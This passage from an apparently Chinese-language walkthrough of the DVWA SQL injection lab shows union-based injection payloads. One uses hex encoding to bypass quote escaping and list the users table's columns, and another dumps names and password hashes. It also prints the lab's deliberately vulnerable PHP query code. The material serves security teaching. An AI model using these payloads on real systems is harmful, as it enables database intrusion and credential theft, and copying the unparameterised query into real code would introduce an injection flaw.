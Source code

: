 ![Mls0jx.png](https://s2.ax1x.com/2019/11/11/Mls0jx.png)

 这是因为单引号被转义了，变成了\’。可以利用16进制进行绕过 '' 

`抓包更改参数id为1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #，查询成功：`![MlrFwF.png](https://s2.ax1x.com/2019/11/11/MlrFwF.png)

` 说明users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。 `

###  下载数据 

`抓包修改参数id为1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #，查询成功：`

![MlraOf.png](https://s2.ax1x.com/2019/11/11/MlraOf.png)

## 级别：high

### SQL Injection Source

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?>
```

###  分析：

 与Medium级别的代码相比，High级别的只是在SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。 
